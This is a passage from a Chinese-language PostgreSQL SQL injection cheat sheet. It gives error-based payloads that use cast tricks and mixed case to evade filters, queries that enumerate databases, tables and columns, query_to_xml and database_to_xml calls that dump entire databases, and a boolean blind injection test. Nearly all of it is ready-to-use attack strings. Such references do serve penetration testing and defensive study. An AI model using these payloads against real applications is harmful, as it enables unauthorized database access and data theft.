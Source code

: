```sql
SELECT datname FROM pg_database
```

## PostgreSQL 列出表格

```sql
SELECT table_name FROM information_schema.tables
```

## PostgreSQL 列出列

```sql
SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
```

## PostgreSQL 基于错误

```sql
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
```

## PostgreSQL XML 辅助工具

```sql
select query_to_xml('select * from pg_user',true,true,''); -- 将指定查询的所有结果作为单个 XML 行返回
```

上述 `query_to_xml` 会将指定查询的所有结果作为单个结果返回。将此与 [PostgreSQL 基于错误](#postgresql-error-based) 技术结合使用，可以在不必担心将查询限制为一个结果的情况下泄露数据。

```sql
select database_to_xml(true,true,''); -- 将当前数据库转储为 XML
select database_to_xmlschema(true,true,''); -- 将当前数据库转储为 XML 模式
```

注意，对于上述查询，输出需要在内存中组装。对于较大的数据库，这可能会导致速度减慢或服务拒绝条件。

## PostgreSQL 盲注

```sql
' and substr(version(),1,10) = 'PostgreSQL' and '1  -> OK
' and substr(version(),1,10) = 'PostgreXXX' and '1  -> KO
```
